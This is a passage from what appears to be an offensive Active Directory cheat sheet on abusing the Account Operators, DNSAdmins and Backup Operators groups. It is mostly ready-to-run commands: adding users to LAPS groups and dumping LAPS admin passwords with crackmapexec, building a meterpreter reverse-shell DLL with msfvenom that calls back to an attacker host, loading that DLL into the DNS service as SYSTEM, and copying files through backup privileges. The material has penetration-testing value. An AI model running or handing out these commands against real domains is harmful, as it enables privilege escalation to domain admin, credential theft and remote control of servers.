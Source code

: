 ### Account Operators

The members of this group can add and modify all the non admin users and groups. Since **LAPS ADM** and **LAPS READ** are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password

#### Add user to LAPS groups

```bash
net rpc group addmem 'LAPS ADM' user2 -U domain.local/user1%password -S <DC_IP>
net rpc group addmem 'LAPS READ' user2 -U domain.local/user1%password -S <DC_IP>
```

#### Read LAPS password

```bash
crackmapexec ldap <DC_IP> -u user2 -p password -M laps -O computer="<target>"
```

### DNS Admin

* It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).
* In case the DC also serves as DNS, this will provide us escalation to DA.
* Need privileges to restart the DNS service.

```bash
#Generate the DLL
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=1234 -f dll > rev.dll

#On the DNS machine, modify the server conf
crackmapexec smb <target> -u user1 -p password -X "dnscmd.exe /config /serverlevelplugindll \\<share_SMB>\rev.dll"

#### Restart DNS
services.py 'domain.local'/'user1':'password'@<DNS_server> stop dns
services.py 'domain.local'/'user1':'password'@<DNS_server> start dns
```

### Backup Operators

Can _normally_ log in on any machines of the domain.

#### File system backup

Can backup the **entire file system** of a machine (DC included) and have full read/write rights on the backup.

To backup a folder content:

```bash
crackmapexec smb <target> -u user1 -p password -X "robocopy /B C:\Users\Administrator\Desktop\ C:\tmp\tmp.txt /E"
```
